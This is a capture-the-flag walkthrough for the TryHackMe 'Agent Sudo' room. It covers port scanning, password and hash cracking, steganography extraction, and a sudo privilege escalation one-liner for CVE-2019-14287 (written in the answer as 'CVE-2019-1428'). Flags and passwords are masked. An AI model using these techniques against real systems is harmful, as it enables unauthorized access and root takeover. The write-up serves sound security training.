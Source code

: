 

# Agent Sudo

room：https://tryhackme.com/room/agentsudoctf

### 1.Enumerate

1.nmap and gobuster

```
nmap -sC -sV(-sS -sV) MACHINE_IP
gobuster dir -u MACHINE_IP  -w /usr/share/wordlists/dirb/common.txt -t 50 
```

How many open ports?

```
3
```

How you redirect yourself to a secret page?

```
user-agent
```

![image-20221127152826263](E:\Typera_images\image-20221127152826263.png)

What is the agent name?

```
chris
```



### 2.Hash cracking and brute-force

FTP password

![image-20221127152929563](E:\Typera_images\image-20221127152929563.png)

```
*
```

use ftp login to get file

![image-20221127152956848](E:\Typera_images\image-20221127152956848.png)

```bash
mget *
```

To_agentJ.txt useful message:

```bash
root@aoiri:~/tryhackme/agentsudo# cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

use binwalk

![image-20221127153116310](E:\Typera_images\image-20221127153116310.png)

```
binwalk cutie.png -e
```

get the zip file and use zip2john crack the zip pasword:

```bash
zip2john 8702.zip > zip.hash
john zip.hash

```

![image-20221127153312804](E:\Typera_images\image-20221127153312804.png)

Zip file password

```
*
```

steg password

txt file has the encrypted string "QXJlYTUx"

use magic in [CyberChef](https://gchq.github.io/CyberChef/)

![image-20221127153925077](E:\Typera_images\image-20221127153925077.png)

```
*
```

Who is the other agent (in full name)?

```bash
steghide extract -sf cute-alien.jpg 
```

![image-20221127155238827](E:\Typera_images\image-20221127155238827.png)

```bash
root@aoiri:~/tryhackme/agentsudo/tmp# cat message.txt 
Hi james,

Glad you find this message. Your login password is ************

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
root@aoiri:~/tryhackme/agentsudo/tmp#
```

```
james
```

SSH password

```
************
```

use ssh login

### 3.Capture the user flag

just cat.

What is the user flag?

```
*
```

What is the incident of the photo called?

`sudo scp james@10.10.235.17:Alien_autospy.jpg ~/`

Reverse image and Foxnews.

```
Roswell alien autopsy
```



### 4.Privilege escalation


CVE number for the escalation  (Format: CVE-xxxx-xxxx)

use `sudo -l`

![image-20221128111736314](E:/Typera_images/image-20221128111736314.png)

use bash shell in gtfbins they are not working.

![image-20221128111812736](E:/Typera_images/image-20221128111812736.png)

search on google about exploit

https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulner

find it's sudo1.8.27 exploit

```
CVE-2019-1428
```

What is the root flag?

https://www.exploit-db.com/exploits/47502

use this to Privilege escalation

```
sudo -u#-1 /bin/bash
```

cat flag:

```
*
```

(Bonus) Who is Agent R?

```
Des...
```





























